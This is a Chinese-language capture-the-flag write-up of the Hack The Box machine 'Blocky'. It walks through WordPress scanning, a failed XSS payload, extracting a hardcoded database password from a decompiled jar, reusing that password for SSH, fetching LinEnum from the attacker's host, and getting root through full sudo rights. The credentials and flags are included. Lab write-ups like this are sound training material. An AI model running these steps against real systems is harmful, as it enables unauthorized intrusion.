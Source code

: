 [toc]
# Blocky
- victim
	- 10.129.64.192
- local
	- 10.10.14.34
	- 10.10.14.12
- [ ] AutoRecon已执行？

---

## Web分析(port 80)

一眼看上去就是WordPress，扫一下，现在需要api了，连接api一下并写入alias

```bash
wpscan --url http://10.129.64.192
wpscan --url http://10.129.64.192 --enumerate u
```

结果保存在`wpscan.pdf`

扫出来版本漏洞好多，

- SQL注入：WordPress 2.3.0-4.8.1 - $wpdb->prepare() potential SQL Injection
  - CVE-2017-14723
  - CVE介绍里表示需要必须要利用插件进行SQL注入攻击，那看来没法直接利用
- XSS：WordPress <= 5.0 - File Upload to XSS on Apache Web Servers
  - HttpOnly未打开，可能存在CSRF
  - 但未登录前没有上传点，这个也GG
- XSS：WordPress 3.9-5.1 - Comment Cross-Site Scripting
  - https://blog.ripstech.com/2019/wordpress-csrf-to-rce/ 符合我的思路CSRF To RCE

### 用户枚举结果

根据用户枚举结果，通过http://10.129.64.192/index.php/wp-json/wp/v2/users/?per_page=100&page=1可以直接获取到用户信息，有且只有一个用户

用户名：Notch / notch

### XSS攻击

Payload

```html
<img title='XSS " src="dwafwadaw" onerror="document.write(123)" id=" '>
```

没成功

### 路径扫描

在http://10.129.64.192/plugins/ 发现有一个文件浏览系统，包含了两个jar文件，很有意思，拿下来反编译看看

## Jar文件反编译

使用JD-GUI

### BlockyCore.jar

找到硬编码的Sql用户

- sqlUser
  - root
- sqlPass
  - 8YsqfCTnvxAUeduzjNSXe22

### griefprevention-1.11.2-3.1.1.298.jar

代码很多，无明显有用代码

尝试ssh口令复用,`Notch`不可用，尝试`notch`，成功登陆ssh

- user:notch
- Pass:8YsqfCTnvxAUeduzjNSXe22

`user.txt`

```
59fee0977fb60b8a0bc6e41e751f3cd5
```

## Priv Escalation to Root

LinEnum检查

```bash
wget 10.10.14.34:8000/LinEnum.sh
```

To `LinEnum.pdf`

可以看见又是sudoer又是adm

```bash
sudo -l
```

```
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
```

```bash
sudo -i
```

直接成为了root

`root.txt`

```
0a9694a5b4d272c694679f7860f1cd5f
```

